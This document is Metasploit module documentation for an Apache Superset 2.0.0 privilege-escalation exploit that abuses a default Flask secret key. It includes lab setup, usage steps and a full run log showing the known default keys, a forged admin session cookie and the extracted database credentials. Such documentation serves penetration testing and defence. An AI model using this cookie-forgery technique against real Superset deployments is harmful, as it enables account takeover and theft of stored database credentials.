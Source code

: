
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

## App Install

```
sudo docker run -p 8088:8088 -name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'public' as the permission level.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.


### ADMIN_ID

The ID of an admin account. Defaults to `1`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYi.ZK2qOQ.c-LssFFTxWJKoQZ7v1Sex8q-xy0
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDY0MGYzZGVlNzJiMDkzMWIwMTgyMzBhYjg3ZDE3NjU0ZjRlMGZlZiIsImxvY2FsZSI6ImVuIn0.ZK2qOQ.oXIWtpT7OItq7Vmr-00Prtl4Pmg;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwlj0tqAzEQRO-itRf9G7XalxkkdTc2MTbM2KuQu0chy6Io6r3vsucR561c38cnLmW_e7mWMKE-qmR3UcdB0LB2EczOSC6VeCNBowruSYxjNdswtOnNY3BuuuG0VodSotpMVuzk6AlCDUcqayoYpIu3ZgLAjad1q4xRLmWeR-7v11c8F49XgWSPUBpg6w6wEUMfbdFp3SQlICPX7vGa_RF_Ds-VPmcc_0pUfn4BrnVCHw.ZK2qOQ.SCiqOSW_PTP9VPz2CfG_2IZmHyI;
[*] 127.0.0.1:8088 - Modified cookie: {"_fresh"=>true, "_id"=>"e942ab64fad47d1b20816a441fa312d462352419260ddf231b1fa5b919cd8deb3f5751c986b72f179cf371a2d1df04281bf737f7090fd4d889400383c9a9631e", "csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en", "user_id"=>1}
[*] Attempting to resign with key: thisismyscretkey\e\y\y\h
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.fv4N_O6m35thR0PFpOdy7E8MA_Y
[-] 127.0.0.1:8088 - Cookie not accepted
[*] Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.XIvqgEv_nviSivPJjE73KOWKMEI
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found mysql database exampledb: root:my-secret-pw@111.222.3.444:3306
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
